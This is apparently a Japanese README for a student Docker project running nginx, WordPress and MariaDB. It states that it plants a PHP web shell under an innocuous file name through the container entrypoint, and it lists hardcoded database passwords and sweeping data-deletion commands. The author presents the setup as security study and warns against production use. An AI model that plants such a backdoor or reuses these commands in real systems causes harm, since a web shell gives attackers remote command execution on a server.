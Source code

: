 # inception

WordpressのDockerコンテナです。
セキュリティの勉強をかねて少しやります。

WebShell仕込んでます。
実稼働で使わないでください！

## Containers

- nginx
- wordpress
- mariadb

## WebShell

https://localhost:443/wordpress/wp_get-access.php

ありそうな名前`wp_get-access.php`で作ってます。

### 配置場所

- /var/www/html/wordpress/wp_get-access.php

`srcs/requirements/wordpress/docker-entrypoint.sh`

```bash
echo '<?php system($_GET["cmd"]);?>' > /var/www/html/wordpress/wp_get-access.php
```

### 用途

Bonusの部分で利用します。

> 自分が便利だと思う好きなサービスを設定する。選んだサービスを正当化する必要があります。

## ポートフォリオ

昔作ったポートフォリをを載せてます。

### 用途

Bonusの部分で利用します。

> PHPを除くお好きな言語で、簡単な静的ウェブサイトを作成してください（はい、PHPは除きます！）。例えば、ショーケースサイトや履歴書を発表するためのサイトなど。

## SQL チートシート

```bash
# Maria DBのサーバーにアタッチする
docker exec -it $(docker ps -q -f name=mariadb) /bin/ash

# rootでDBにアクセスする
mariadb -h localhost -u root -payatoshitomi
# db_userでDBアクセスする
mariadb -h localhost -u db_user -p42inceptiondbroot

# MySQLのコマンド
> USE mysql;
> SELECT * FROM <TABLE_NAME>

# 補足）
#	rootでパスワードなしでログインできないようになっている。
mariadb -hlocalhost -uroot

```

## Memo

### 環境を初期化する

```shell
sudo rm -rf ~/data/

docker stop $(docker ps -qa); docker rm $(docker ps -qa); docker rmi -f $(docker images -qa); docker volume rm $(docker volume ls -q); docker network rm $(docker network ls -q) 2>/dev/null
```

### 起動確認

https://localhost:443/wp_install_log.html

### ボリューム問題

> docker-compose.yamlでボリュームを設定している場合、docker volume lsコマンドでは表示されません。
> ボリュームが作成されるのは、docker-compose up -dコマンドを実行してコンテナを起動した時点でのみです。

docker-compose.yamlを利用するのでボリュームは確認できない。
しかし、`/home/ashitomi/`を見れば存在が確認できる。